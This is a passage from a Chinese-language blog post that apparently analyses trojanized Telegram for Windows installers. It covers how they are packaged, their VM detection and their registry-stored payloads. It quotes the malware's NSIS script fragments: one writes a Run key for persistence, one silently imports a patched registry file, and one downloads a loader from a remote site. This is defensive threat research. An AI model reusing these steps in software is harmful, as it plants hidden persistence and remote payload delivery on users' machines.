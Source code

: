 ```
```

> Advanced Installer 特別的資料夾名稱對應實際位置可參考官方文件：https://www.advancedinstaller.com/user-guide/folder-paths.html

在安裝的過程中，除了將上述資料夾內的檔案放置到對應的位置以外，透過 Advanced Installer [Registry](https://www.advancedinstaller.com/user-guide/registry.html) 的設定將 payload 寫入到 `HKEY_CURRENT_USER\Software\<COMPUTERNAME>`，後續由 `AddInProcess.exe` 透過 .NET `Assembly.Load` 的方式載入。

除此之外，也有部份樣本具備檢測虛擬機的能力，查閱 Advanced Installer 的官方文件後發現確實是有這個 [功能](https://www.advancedinstaller.com/user-guide/launch-conditions-system.html) 可以啟用的，開發者可以在 Launch Conditions 裡勾選 `Prevent running in virtual machines`。

{% image fancybox center p3.png "Figure 3. Advanced Installer 檢測到虛擬機環境拒絕安裝" %}

### NSIS
NSIS ([nullsoft scriptable install system](https://nsis.sourceforge.io/Main_Page)) 打包的安裝程式可以使用 7-zip 直接解壓縮就能得到還原的安裝腳本 [NSIS].nsi 以及打包的檔案。7-zip 在 9.33 的版本加入了自動反編譯 NSIS 腳本的功能，但又在 15.06 把這個功能拿掉了，所以要注意 7-zip 版本必須介於這兩者之間。

#### NSIS Type 1
使用 NSIS 打包的第一種版本，基本上和使用 Advanced Installer 打包的型態內容大同小異。

接下來的 NSIS Type2 和 Type3 便是前一篇文章 [分析一個加料的 Telegram for Windows 中文版安裝程式](https://blog.theo.com.tw/Research/%E5%88%86%E6%9E%90%E4%B8%80%E5%80%8B%E5%8A%A0%E6%96%99%E7%9A%84-Telegram-for-Windows-%E4%B8%AD%E6%96%87%E7%89%88%E5%AE%89%E8%A3%9D%E7%A8%8B%E5%BC%8F/) 所敘述的內容，但是額外發現了一些細節。

#### NSIS Type 2
Type 2 和 Type 1 相比最大的不同在於，寫入機碼 `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` 實現持久化的動作不再經由釋放 `*.reg` 檔案之後再做匯入，而是使用 NSIS 腳本實現：
```sh
WriteRegStr HKCU Software\Microsoft\Windows\CurrentVersion\Run telegramCnService C:\PerfLog\AddInProcess.exe
```
但反而寫入 `HKEY_CURRENT_USER\Software\<COMPUTERNAME>` 的 payload 獨立成檔案 `ns.reg` 落地後再使用 NSIS 腳本呼叫 `regedit.exe` 匯入。

NSIS 腳本片段：
```sh
# Replace 123456 to <ComputerName> from ns.reg then use regedit.exe to import
ReadRegStr $R1 HKLM SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName ComputerName
TextReplace::_FindInFile /NOUNLOAD $INSTDIR\ns.reg 123456 /S=1
TextReplace::_ReplaceInFile /NOUNLOAD $INSTDIR\ns.reg $INSTDIR\ns.reg 123456 $R1 "/S=1 /C=1 /AO=1"
Exec "regedit.exe /s $\"$INSTDIR\ns.reg$\""
```

#### NSIS Type 3
從 Type 3 開始，攻擊者不再把相關的惡意程式打包進安裝程式裡，相反的，所有的惡意程式在安裝過程中才會透過 NSIS 腳本額外下載下來。

##### NSIS Type 3-1
其中又可以細分 Type 3-1，這個版本和 Type 2 相同，但相關的檔案在安裝過程才會額外下載下來。

NSIS 腳本片段：
```sh
# Download loader and registry file
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index2.php cnPath.exe
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index3.php ns.reg
```
